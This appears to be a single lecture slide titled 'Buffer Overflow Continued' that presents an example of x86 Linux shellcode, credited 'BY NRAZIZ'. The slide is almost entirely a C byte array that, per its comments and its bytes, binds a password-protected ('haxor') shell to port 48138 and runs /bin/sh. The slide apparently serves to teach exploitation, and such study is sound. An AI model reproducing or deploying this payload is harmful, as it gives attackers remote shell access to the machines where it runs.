

# Buffer Overflow Continued

Example of shellcode

BY NRAZIZ * * */ /* * Binds to port 48138 * Password: haxor */ char bindcode[]=
    "\x31\xdb\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" "\x31\xd2\x52\x66\x68\xbc\x0a\x66\x6a\x02\x89\xe2\x6a" "\x10\x52\x6a\x03\x89\xe1\xfe\xc3\xb0\x66\xcd\x80\x6a" "\x02\x6a\x03\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x31\xc9" "\x51\x51\x6a\x03\x89\xe1\xfe\xc3\xb0\x66\xcd\x80\x31" "\xdb\x53\x6a\x3a\x68\x50\x61\x73\x73\x89\xe6\x6a\x05" "\x56\x6a\x04\x89\xe1\xb3\x09\xb0\x66\xcd\x80\x31\xc9" "\x31\xf6\x51\x6a\x05\x52\x6a\x04\x89\xe1\xb3\x0a\xb0" "\x66\xcd\x80\x31\xc9\x51\x6a\x72\x68\x68\x61\x78\x6f" "\x89\xe7\x89\xd6\x80\xc1\x05\xfc\xf3\xa6\x75\xbf\x31" "\xc9\xb3\x04\xb0\x3f\xcd\x80\x41\x83\xf9\x03\x75\xf6" "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e" "\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\xb0" "\x01\xcd\x80“